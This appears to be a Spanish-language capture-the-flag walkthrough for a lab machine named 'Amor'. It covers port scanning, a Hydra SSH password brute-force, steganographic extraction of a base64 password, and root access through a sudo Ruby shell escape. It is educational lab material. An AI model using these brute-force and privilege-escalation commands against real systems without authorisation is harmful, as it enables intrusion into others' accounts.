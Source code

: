Maquina: Amor 

Autor: Romabri 

Dificultad: Facil

![Screenshot 2024-11-08 175752](https://github.com/user-attachments/assets/33acc24b-2e97-45e3-8bb2-d14f30cd9d81)

ping 172.17.0.2 -c 1

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
Vemos que esta abierto el puerto 22 SSH y el puerto 80 HTTP

![Screenshot 2024-11-08 180010](https://github.com/user-attachments/assets/b598b689-02a7-4d65-9e03-5bee8c818a25)

accedemos a la pagina web
https://172.17.0.2

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio

Gobuster no ha encontrado nada pero en una de las entradas vemos algo interesante:
Tenemos dos usaurios

Hacemos un ataque de fuerza bruta con Hydra
hydra -l carlota -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

![Screenshot 2024-11-08 180153](https://github.com/user-attachments/assets/ab2d2df2-3232-4e3d-bde7-7a695bb888d6)

Ahora accedemos vía SSH
ssh carlota@172.17.0.2

![Screenshot 2024-11-08 180743](https://github.com/user-attachments/assets/b3eff1f9-06e6-45a9-b73f-ce1b579acfeb)

vemos que hay este directorio /home/carlota/Desktop/fotos/vacaciones y en dicho directorio hay una imagen, la descargamos.

![Screenshot 2024-11-08 180814](https://github.com/user-attachments/assets/7e00d3f2-7601-41f2-b1da-034c40946ef1)

Este comando nos permite descargar archivos desde ssh

scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/ankb/Downloads/maquina

![Screenshot 2024-11-08 182114](https://github.com/user-attachments/assets/e79857a0-0a36-41a7-941a-49962a098885)

si abrimos la imagen nos encontramos esto:

![Screenshot 2024-11-08 183327](https://github.com/user-attachments/assets/bcfc0e00-8157-45d8-b8ca-cfd08ca56fbf)

Este comando nos extrae información oculta en la imagen
steghiede extract -sf imagen.jpg 

Nos pide que pongamos contraseña si no ponemos nada y damos a enter nos ha generado un archivo secret.txt. Dentro del archivo secret.txt encontramos algo cifrado en base 64

Lo desciframos de la siguiente forma: 

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode

Cuando hacemos esto nos aparece lo siguiente:

![Screenshot 2024-11-08 182325](https://github.com/user-attachments/assets/39545ad5-a3c3-45d7-81f3-7065e3235f53)

Podría ser una contraseña pero para el usuario Juan no funciona vamos a seguir mirando dentro del usuario Carlota

Si escribimos el comando env vemos algo extraño

El texto cita a un tal oscar vamos a probar la contraseña que hemos encontrado dentro de la imagen con este usuario

ssh oscar@172.17.0.2

![Screenshot 2024-11-08 182754](https://github.com/user-attachments/assets/7c1efb8d-3c61-4885-afba-a707bf9bda5b)

Vamos al escritorio de oscar y vemos un achivo con un texto

Si hacemos un sudo -l nos aparece lo siguiente

Ejecutamos el siguiente comando 

sudo /usr/bin/ruby -e 'exec "/bin/sh"'

Whoami

![Screenshot 2024-11-08 182832](https://github.com/user-attachments/assets/30645df0-a593-45b8-b80d-c18547ad53cb)
